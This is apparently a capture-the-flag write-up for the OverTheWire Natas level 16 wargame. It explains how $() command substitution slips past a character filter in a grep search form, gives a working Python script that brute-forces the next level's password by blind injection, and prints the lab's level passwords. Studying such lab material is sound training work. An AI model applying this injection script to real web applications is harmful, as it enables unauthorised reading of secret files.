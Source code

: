 
> Password is `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`.

> Password is in this file: 
```
/etc/natas_webpass/natas17
```

> Checking the source code: 

![](./screenshots/16-1.png)

> We see whatever we input is placed inside qoutes, meaning anything we put is interpreted as text.
> Many of the special characters are blocked, only ones not blocked are `$` and `()`.

> What this implies is command substituion: executing a command and having its output replace the text of the command. 
```
$ echo "mins$(echo 123)"
> mins123
```

> We can use this to brute force the password using the `grep` command.
> Basically, if we enter into `key` a value present in `dictionary.txt`, we get an output, but if we dont get an output, then the value entered into `key` doesn't exist.

> We can use commad substitution to use this fact about `grep` commands, they return something if the value is present, and return nothing if value is not present.

> We can insert into `key` the following:
```
$(grep a /etc/natas_webpass/natas17)
```

> This transforms the injectable command to: 
```
grep -i <output-of-grep> dictionary.txt
```

1. If the `<output-of-grep>` is empty, this means `a` doesn't exist inside `/etc/natas_webpass/natas17`.
> Then the injectable command tries to fetch an empty string from `dictionary.txt`, meaning it returns everything found in `dictionary.txt`.

2. If the `<output-of-grep>` is not empty, this means `a` exists inside `etc/natas_webpass/natas17`, and `<output-of-grep>` IS the password we are looking for.
> Then the injectable command tries to fetch the value of the password from `dictionary.txt`, which we know isn't there. Therefore, it returns an empty output.

> Therefore, we can try a brute force attack, to look for all lowercase, upercase, and digit characters inside the substituted command. 
> We can do that by checking for the first character, and if we find that we dont return an output, then the first chatacer is correct, and we can search for the following character by concatenating it with the first one found. Using regular expressions with grep, we can check for the first character/characters of a line entry in a file.

> To test this out, we preprend a string that is present in `dictionary.txt` to the character we are trying, because it will be simpler than testing for the empty string and printing out all the entries in it.
> Let it be `Africans`. Therefore, if the substituted command works and we see that a character works, the subsituted command will return the password, and the injectable command will try looking for `Africans+password`, which will return nothing. But if the character fails, it will only look for `Africans`.

```python
import requests
import re
from string import *

auth_username = "natas16"
auth_password = "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V"
url = "http://natas16.natas.labs.overthewire.org/"

session = requests.Session()

characters = digits + ascii_letters
password = ""

while len(password) < 32:
    for character in characters:
        print("Trying: " + password + character)
        response = session.post(url, data={"needle": "Africans$(grep ^" + password + character + " /etc/natas_webpass/natas17)"}, auth=(auth_username, auth_password))
        content = response.text
        if "Africans" not in content:
            password += character
            print("Password: " + password)
            break
```

> What this does is that uses regular expressions with `^` to look for characters at the beginning of an entry.
> If the substituted command, which is `grep ^character /etc/natas_webpass/natas17` finds a correct character at the beginning, it will try this same character and concatenate to it the next character to try, now looking for 2 characters, and so on.
> We stop when the password has 32 characters, since that is the length of the password.

> Running this script, we get the password.

```
natas17:XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
```

---
